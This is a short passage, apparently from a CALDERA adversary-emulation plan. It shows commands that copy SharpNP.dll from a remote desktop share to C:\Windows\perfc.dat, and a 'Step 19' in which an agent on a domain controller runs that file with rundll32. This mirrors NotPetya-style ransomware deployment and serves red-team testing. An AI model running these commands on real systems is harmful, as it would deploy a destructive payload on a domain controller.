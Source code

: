 ```
copy \\TSCLIENT\X\SharpNP.dll;
C:\Windows\perfc.dat;dir C:\Windows\perfc.dat;
```

## Step 19
- The CALDERA agent running on the domain controller will spawn a separate PowerShell process to run the following:
```
rundll32.exe C:\Windows\perfc.dat,"#1"
```
